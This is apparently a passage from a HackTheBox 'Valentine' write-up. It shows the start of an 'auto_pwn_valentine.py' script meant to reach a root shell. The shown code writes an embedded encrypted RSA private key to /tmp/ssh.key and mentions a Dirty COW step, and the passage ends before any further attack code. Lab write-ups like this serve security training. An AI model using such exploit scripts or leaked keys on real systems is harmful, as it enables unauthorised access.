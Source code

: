 ```py
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-19-HackTheBox-Valentine/2021-12-19-HackTheBox-Valentine%2012:19:40.png)

auto_pwn_valentine.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Valentine HackTheBox - Auto Pwn - Root Shell

import argparse
import sys
from pwn import *
import os
from subprocess import call
  
'''Here come the Functions'''
# SSH Key on the system and dirty cow
def DropFiles():
    print("[+] First let's just drop the ssh key on the server ! [+]")
    payload = "-----BEGIN RSA PRIVATE KEY-----\n"
    payload += "Proc-Type: 4,ENCRYPTED\n"
    payload += "DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46\n"
    payload += "\n"
    payload += "DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R\n"
    payload += "5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6\n"
    payload += "0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi\n"
    payload += "Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P\n"
    payload += "OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd\n"
    payload += "pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH\n"
    payload += "QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E\n"
    payload += "p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC\n"
    payload += "Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO\n"
    payload += "t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5\n"
    payload += "XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK\n"
    payload += "aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ\n"
    payload += "+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E\n"
    payload += "AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q\n"
    payload += "r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe\n"
    payload += "2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky\n"
    payload += "e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP\n"
    payload += "09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC\n"
    payload += "dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX\n"
    payload += "cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY\n"
    payload += "pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj\n"
    payload += "Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL\n"
    payload += "suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW\n"
    payload += "l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT\n"
    payload += "RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3\n"
    payload += "-----END RSA PRIVATE KEY-----"
    f = open("/tmp/ssh.key", "w")
    f.write(payload)
    f.close()
    os.system("chmod 600 /tmp/ssh.key")
```